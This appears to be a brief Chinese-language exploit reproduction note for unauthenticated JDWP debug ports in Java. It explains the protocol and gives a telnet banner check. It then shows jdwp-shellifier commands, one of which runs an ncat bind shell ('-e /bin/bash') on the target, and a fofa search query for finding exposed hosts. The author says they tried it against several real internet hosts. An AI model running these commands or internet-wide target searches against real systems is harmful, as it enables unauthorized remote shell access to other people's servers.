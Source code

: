 安全客上看到阿里云团队发布的：JDWPMiner挖矿木马后门简要分析  
遂复现此漏洞

### 原理介绍：

JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 简单检测方法：  
```
telnet ip port
```
查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。如下图  
![image](./pic/1.jpg)  

### 漏洞复现：
借助工具：https://github.com/IOActive/jdwp-shellifier  
用法：
```
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
```
### 目标搜索
fofa上搜索目标
```
banner="jdwp"
```
试了几个都没有漏洞，暂不批量检测了

参考链接：  
https://zhuanlan.zhihu.com/p/147315596  

